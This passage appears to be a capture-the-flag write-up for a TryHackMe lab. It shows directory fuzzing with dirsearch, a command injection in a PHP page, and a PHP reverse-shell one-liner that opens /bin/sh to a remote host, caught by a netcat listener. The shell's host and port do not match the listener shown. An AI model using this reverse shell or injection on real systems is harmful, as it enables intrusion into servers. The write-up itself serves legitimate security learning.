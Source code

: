 Sub-directories fuzzing with dirsearch.
```
┌──(kali㉿kali)-[~/Desktop/THM/U.A.HighSchool]
└─$ dirsearch -u http://10.10.228.138 -w /usr/share/seclists/Discovery/Web-Content/big.txt 
...
Target: http://10.10.228.138/

[15:20:01] Starting: 
[15:20:36] 301 -  315B  - /assets  ->  http://10.10.228.138/assets/         
[15:23:38] 403 -  278B  - /server-status                                      
                                                                             
Task Completed
```
```                                     
┌──(kali㉿kali)-[~/Desktop/THM/U.A.HighSchool]
└─$ dirsearch -u http://10.10.228.138/assets/ -w /usr/share/seclists/Discovery/Web-Content/big.txt 

...
Target: http://10.10.228.138/

[15:38:02] Starting: assets/
[15:38:09] 301 -  322B  - /assets/images  ->  http://10.10.228.138/assets/images/
...
```
<img src=https://github.com/user-attachments/assets/1b52da5d-99dc-4092-a785-961a1456f6b2>


The image subdirectory is not accessible. So, with the knowledge from the previous labs, I tried index.php. And it didn't show any error.

<img src=https://github.com/user-attachments/assets/f23b887b-08a1-4772-b92d-ea58e8c12321>

Next, I PHP URL injection.

<img src=https://github.com/user-attachments/assets/9519f37e-ea7a-4d6a-9d19-c0c0afd643f0>

```
┌──(kali㉿kali)-[~/Desktop/THM/U.A.HighSchool]
└─$ echo "aW1hZ2VzCmluZGV4LnBocApzdHlsZXMuY3NzCg==" | base64 -d                                               
images
index.php
styles.css
```

This means I can inject commands in the URL and so I injected a one-liner reverse PHP command

`php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`

And I opened a netcat listener on my machine:
```
┌──(kali㉿kali)-[~/Desktop/THM/U.A.HighSchool]
└─$ nc -nlvp 4444                           
listening on [any] 4444 ...
connect to [10.17.94.32] from (UNKNOWN) [10.10.228.138] 53848
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
